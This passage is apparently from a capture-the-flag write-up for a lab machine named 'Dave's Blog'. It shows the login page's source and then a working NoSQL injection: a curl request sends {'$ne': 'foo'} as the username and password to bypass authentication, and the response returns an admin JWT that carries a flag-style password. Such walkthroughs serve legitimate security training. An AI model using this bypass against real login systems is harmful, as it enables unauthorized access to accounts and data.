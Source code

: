 ```html
  Don't have an account? Click <a href="/admin/register">here</a> to register!

  <script>
    if(document.location.hash) {
      const div = document.createElement('div')
      div.innerText = decodeURIComponent(document.location.hash.substr(1));
      div.className = 'note';
      document.body.insertBefore(div, document.body.firstChild);
    }
    document.querySelector('form').onsubmit = (e) => {
      /*e.preventDefault();
      const username = document.querySelector('input[type=text]').value;
      const password = document.querySelector('input[type=password]').value;

      fetch('', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({username, password})
      }).then(() => {
        location.reload();
      })
      return false;*/
    }
  </script>
</body>

</html>
```

Checking on the Internet how to bypass JSON authentication led me to this post (https://book.hacktricks.xyz/pentesting-web/nosql-injection) where I was able to replicate the examples by injecting `{"$ne": "foo"}` in the `username` and `password` fields:

~~~
kali@kali:/data/Dave_s_Blog$ curl -D header.txt -H "Content-Type: application/json" -XPOST -d '{"username":{"$ne": "foo"},"password":{"$ne": "foo"}}' http://10.10.139.182/admin
Found. Redirecting to /admin
kali@kali:/data/Dave_s_Blog$ cat header.txt 
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 23 Sep 2020 07:05:04 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Set-Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlLCJfaWQiOiI1ZWM2ZTVjZjFkYzRkMzY0YmY4NjQxMDciLCJ1c2VybmFtZSI6ImRhdmUiLCJwYXNzd29yZCI6IlRITXtTdXBlclNlY3VyZUFkbWluUGFzc3dvcmQxMjN9IiwiX192IjowLCJpYXQiOjE2MDA4NDQ3MDR9.nioG_MjIcRGJ3PObm0QcDv_eIqRU6baBCYAi7aRWVPw; Path=/
Location: /admin
Vary: Accept

~~~
